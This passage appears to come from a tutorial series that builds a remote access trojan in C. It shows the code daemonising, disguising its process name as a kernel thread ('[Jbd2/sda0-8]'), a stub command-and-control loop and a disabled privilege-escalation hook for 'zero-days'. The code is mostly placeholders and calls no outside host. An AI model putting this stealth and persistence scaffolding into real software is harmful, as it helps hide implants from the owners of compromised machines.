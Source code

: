 # Our RAT so-far
Enough theory, it is time to go on with our programming course. Let's take the code from the previous instalment and just refactor it a little bit.

```C
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int daemonize ()  {
  pid_t pid;
  
  if ((pid = fork()) != 0) return 0;
  setsid(); // Remove TTY
  if ((pid = fork()) != 0) return 0;
  return 0;
}

int payload () {
  while (1) {
    // C2C communication loop
    usleep (1000);
  }
}

int main (int argc, char *argv[]) {
  printf ("This is RAT0X0 version 0.1\n");
  strcpy (argv[0],"[Jbd2/sda0-8]");
  daemonize (); 
  
  payload ();
}
```

From the learning point of view, it does not make much sense to implement every single technique we discussed above, but it is useful to implement the low level function required to use those techniques and that way we will keep learning about programming and how the system works.

The first we are going to do is to add a function that would implement the privilege escalation. For the time being it won't really do any privilege escalation, but will allow us to introduce a new system call `getuid`. It will look like this.

```C
#define USER_PERSISTENCE 0
#define SYS_PERSISTENCE  1

int escalate () {
  if (getuid () == 0) return SYS_PERSISTENCE;
#if 0
  extract_info ();
  if (find_exploit ()) {
    // Fire your zero-days here
    apply_exploit (); // This will actually run the RAT
	exit (1);         // so we are done
  }
#endif
  return USER_PERSISTENCE;
}
```
